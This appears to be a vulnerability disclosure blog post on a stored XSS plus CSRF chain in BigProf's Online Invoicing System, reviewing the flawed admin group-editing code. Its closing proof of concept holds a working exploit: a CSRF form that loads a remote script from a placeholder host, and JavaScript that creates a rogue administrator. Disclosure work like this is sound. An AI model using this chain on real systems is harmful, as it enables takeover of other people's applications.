 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System | Stored XSS via CSRF in /admin/pageEditGroup.php -> Application Takeover
tags: [CVE-Writeup, XSS, CSRF, Chaining]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via chaining Stored XSS + CSRF
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to adequately sanitize fields for HTML characters upon an administrator creating a new group thus resulting in Stored Cross-Site Scripting. The caveat here is that an attacker would need administrative privileges in order to create the payload thus completely mitigating the privilege escalation impact as there is only one high privileged role. However it was discovered that the endpoint which is responsible for creating the group lacks CSRF protection as well meaning an attacker is able to chain these two vulnerabilities an remotely takeover the application.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

`admin/pageEditGroup.php` returns a form which allows an administrator to create a new group. This form has two fields which accept user input (`Group Name` & `Description`) while the rest of the fields are checkbox and radio forms.

To learn more about how this form works, lets take a closer look at the code which is responsible.

**admin/pageEditGroup.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/formcode.png)

As shown on Lines 3 & Lines 4, the value of the user inputs retrieved from the body of the POST request are first passed into the `makeSafe()` function before being initialized as the value of their respective variable. The `makeSafe()` function was taken apart in great detail in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, `makeSafe()` is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

While `makeSafe()` is helpful for preventing SQL Injections, it however is not responsible for sanitizing any user input which contains HTML characters. As a result of this, the unsanitized user input is stored directly in the database as shown on Line 35:

~~~php
sql("insert into membership_groups set name='{$name}', description='{$description}', allowSignup='{$allowSignup}', needsApproval='{$needsApproval}'", $eo);
~~~

However before declaring this Cross-Site Scripting, lets see if there is any sanitization done on the values before reflecting them onto the page.

**admin/pageViewGroups.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/viewgroup.png)

As shown on Line 1 above, a SQL query is executed which will return the values from the following columns:

~~~
groupID - Column 0
name - Column 1
description - Column 2
~~~

Afterwards a while loop is constructed in order to iterate and retrieve the values returned from each column. The index in which `$row` is returning corresponds to the position of the columns listed above, for example `$row[0]` will be the `groupID` while `$row[1]` will be the `name` and finally `$row[2]` will be the `description`.

As shown on Line 6, the application directly reflects the values of `$row[0]` and `$row[1]` onto the page. Before reflecting the value of `$row[2]`, it is passed into the `thisOr()` function in which the [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) explained the logic of the function. 

TL;DR: `thisOr()` performs a ternary operation on the value of the passed in argument. If the value is not empty it will be directly returned. However in cases where the value is empty, the `&nbsp` HTML entity will be returned (which is a space). This function does nothing to sanitize any input being reflected onto the page.

Due to this, we can now confirm that the application would be vulnerable to Stored Cross-Site Scripting.

While this can be considered an issue, any impact here is severely mitigated as unlike other applications such as Wordpress which provide multiple tiers of high privileges such as Moderator, Admin, Super Admin, etc, as this application only has one admin level. This means that in order for an attacker to succesfully exploit the application, they would either need to convince the application's admin to input the XSS payload which is very unlikely or have an account with admin privileges themselves which defeats the purpose of exploiting the application via this way.

However when viewing the request which is responsible for creating the group, an astute attacker may observe that there appears to be no form of CSRF protection:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/request.png)

As reviewed in an [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) , the application does not utilize `Same Site Cookies` meaning this endpoint would be vulnerable to Cross-Site Request Forgery.

While this is could be considered a serious issue, it is not the end of the world for the application as the attacker only has the ability to CRUD groups. The attacker would be unable to add themselves directly into a group and moreso would be unable to create a group which has administrative privileges as the application only limits these types of privileges to the default Admin's group.

To recap where an attacker currently stands in the context of exploitation:
- Application is vulnerable to Stored XSS however an attacker which already has administrative privileges is required to create the initial payload.
- Application is vulnerable to CSRF which would allow an attacker to create custom groups.

In order for an attacker to gain successful remote exploitation on this application, they are able to chain the two vulnerabilities together to leverage a complete takeover. The attacker will need to first create a simple CSRF proof of concept payload which will look similar to:

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="randomgroup" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

In the CSRF proof of concept above, the attacker will need to replace either the value of the `name` parameter or `description` parameter with their payload. However it would be a good idea to test this locally first as the attacker will notice that the `name` field has a character length restriction in the database:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/sql.png)

As shown above, the `name` column is of type `VARCHAR(100)` meaning it will only take up to 100 bytes. As an ASCII character is 1 byte, the maximum characters you could store in this column would most likely be 100. While this is not a dealbreaker, it can definitely truncate the attacker's payload and ruin the exploitation process. However an attacker could also use the `description` parameter as it's value is directly reflected on the page as well. Looking at the `description` column is of type `text` and is able to take any amount of characters, making it the smarter choice here.

After updating the `description` parameter to contain the attacker's payload in the description above, the proof of concept is ready to be hosted.

Upon hosting the proof of concept and having the application's admin browse to it, the CSRF vulnerability will be triggered and a group will be created with the description containing an XSS payload.

Finally when the application's admin browses to the Groups List (located at `/admin/pageViewGroups.php`), the XSS payload will be executed thus resulting in a successful chain. As the XSS payload will be executed in the context of the application, the Same Origin Policy is bypassed therefore allowing an attacker to leverage their privileges to the highest available and effectively takeover the application.


# Proof of Concept

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="<script src=//your-app.pw/payload.js></script>" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

**Replace `your-app.pw/payload.js` found in the value of the description parameter above.**

~~~javascript
//payload.js

// create admin with username attacker1337
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=&memberID=attacker1337&password=attacker1337&confirmPassword=attacker1337&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=&custom2=&custom3=&custom4=&comments&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~

The Javascript snippet above will create a new administrator with the username and password being `attacker1337`.
